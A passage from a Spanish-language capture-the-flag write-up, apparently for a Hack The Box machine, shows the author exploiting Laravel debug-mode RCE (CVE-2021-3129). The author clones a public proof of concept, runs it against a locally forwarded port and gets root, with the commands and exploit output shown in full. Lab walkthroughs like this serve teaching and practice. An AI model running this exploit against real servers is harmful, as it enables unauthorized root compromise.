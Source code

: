 Me detecta el directorio _profiles/_:
![](/assets/img/Anexos/Pasted%20image%2020250330194655.png)

Buscando encontré que Laravel Debug es vulnerable a RCE por lo que pruebo con este POC de github: 

```shell
❯ git clone https://github.com/nth347/CVE-2021-3129_exploit.git

Cloning into 'CVE-2021-3129_exploit'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 3 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (1/1), done.
❯ cd CVE-2021-3129_exploit
❯ ls
 exploit.py   README.md
❯ chmod +x exploit.py
❯ ./exploit.py http://localhost:8000 Monolog/RCE1 id
/home/juan/Desktop/Maquinas/HTB/Horizontal/exploits/CVE-2021-3129_exploit/./exploit.py:77: SyntaxWarning: invalid escape sequence '\s'
  result = re.sub("{[\s\S]*}", "", response.text)
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 4658, done.
remote: Counting objects: 100% (902/902), done.
remote: Compressing objects: 100% (331/331), done.
remote: Total 4658 (delta 665), reused 586 (delta 567), pack-reused 3756 (from 2)
Receiving objects: 100% (4658/4658), 682.00 KiB | 1.03 MiB/s, done.
Resolving deltas: 100% (2131/2131), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```
Ejecuto el exploit y estamos dentro como root: